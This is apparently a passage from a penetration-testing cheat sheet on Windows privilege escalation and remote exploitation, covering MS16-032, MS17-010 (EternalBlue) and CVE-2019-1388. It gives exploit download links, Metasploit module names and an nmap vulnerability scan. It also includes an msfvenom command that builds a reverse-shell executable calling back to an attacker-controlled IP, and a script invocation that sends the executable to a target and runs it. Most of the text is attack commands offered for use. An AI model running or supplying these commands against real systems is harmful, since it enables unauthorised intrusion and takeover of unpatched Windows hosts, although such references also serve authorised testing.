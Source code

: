 ### MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)

Check if the patch is installed : `wmic qfe list | findstr "3139914"`

```powershell
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

### MS17-010 (Eternal Blue)

Check the vulnerability with the following nmap script.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17–010 <ip_netblock>
```

Metasploit modules to exploit `EternalRomance/EternalSynergy/EternalChampion`.

```powershell
auxiliary/admin/smb/ms17_010_command          MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
auxiliary/scanner/smb/smb_ms17_010            MS17-010 SMB RCE Detection
exploit/windows/smb/ms17_010_eternalblue      MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
exploit/windows/smb/ms17_010_eternalblue_win8 MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
exploit/windows/smb/ms17_010_psexec           MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

If you can't use Metasploit and only want a reverse shell.

```powershell
git clone https://github.com/helviojunior/MS17-010

# generate a simple reverse shell to use
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```

### CVE-2019-1388

Exploit : https://packetstormsecurity.com/files/14437/hhupd.exe.html

Working on :

- Windows 7
- Windows 10 LTSC 10240
